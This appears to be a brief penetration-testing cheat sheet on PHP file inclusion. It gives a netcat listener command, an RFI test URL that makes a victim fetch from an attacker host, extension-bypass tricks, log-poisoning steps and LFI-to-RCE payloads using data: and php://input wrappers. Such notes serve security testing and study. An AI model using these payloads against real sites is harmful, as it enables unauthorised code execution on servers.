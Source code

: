 # File Inclusion

## Test for RFI

Setting up listener:

```
$ sudo nc -nlvp 80
```

Testing for RFI:

```
http://victim/page.php?file=http://attacker/test.txt
```

Check if Netcat listener caught a request.

## Bypass File Extensions

* Null byte (%00), for older PHP versions
* Question mark (?), for RFI

## LFI: Contaminating Log File To Get Command Exec

* Inject payload (command execution) in log file
* Exploit LFI by calling the log file

## LFI to RCE Notes

```
?language=data:text/plain,<?php phpinfo(); ?>

<form id="rce" method="post" action="?language=php://input" enctype="text/plain">
	<input name="rce" value="<?php phpinfo(); ?>" type="hidden">
</form>
```

## Fuzzing

[https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
